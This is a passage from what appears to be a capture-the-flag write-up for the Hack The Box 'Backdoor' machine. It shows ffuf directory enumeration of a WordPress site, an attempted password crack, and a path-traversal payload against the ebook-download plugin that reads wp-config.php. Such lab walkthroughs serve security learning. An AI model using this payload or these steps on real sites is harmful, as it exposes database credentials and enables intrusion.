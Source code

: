 ```bash
wp-admin                [Status: 301, Size: 315, Words: 20, Lines: 10]
wp-content              [Status: 301, Size: 317, Words: 20, Lines: 10]
wp-includes             [Status: 301, Size: 318, Words: 20, Lines: 10]
:: Progress: [20469/20469] :: Job [1/1] :: 160 req/sec :: Duration: [0:02:14] :: Errors: 0 ::

```
- The `wp-admin` directory lands you to a wordpress login page, I tried cracking the password with rockyou.txt but failed
- The `wp-content` directory had nothing, so I further `ffuf` it go see more directoires in it

#### Wp-content

```bash
└─$ ffuf -w /usr/share/wordlists/dirb/big.txt -u http://backdoor.htb/wp-content/FUZZ -c 
    
________________________________________________

 :: Method           : GET
 :: URL              : http://backdoor.htb/wp-content/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

.htaccess               [Status: 403, Size: 277, Words: 20, Lines: 10]
.htpasswd               [Status: 403, Size: 277, Words: 20, Lines: 10]
plugins                 [Status: 301, Size: 325, Words: 20, Lines: 10]
themes                  [Status: 301, Size: 324, Words: 20, Lines: 10]
upgrade                 [Status: 301, Size: 325, Words: 20, Lines: 10]
uploads                 [Status: 301, Size: 325, Words: 20, Lines: 10]

:: Progress: [20469/20469] :: Job [1/1] :: 160 req/sec :: Duration: [0:02:14] :: Errors: 0 ::
```
- The plugins directory is quiet intresting 

  ![image](https://user-images.githubusercontent.com/56447720/142757950-719f874f-6535-4605-a28b-2d8c2b988e83.png)

- After messing around on web I found this exploit link : https://www.exploit-db.com/exploits/39575

- Payload : `http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php`

![image](https://user-images.githubusercontent.com/56447720/142758211-612714fb-2d69-4f5e-ad67-a407a82a4e3f.png)

![image](https://user-images.githubusercontent.com/56447720/142758317-b4f84315-4750-4047-be22-03e1e0200fa3.png)


## Iniital Foothold
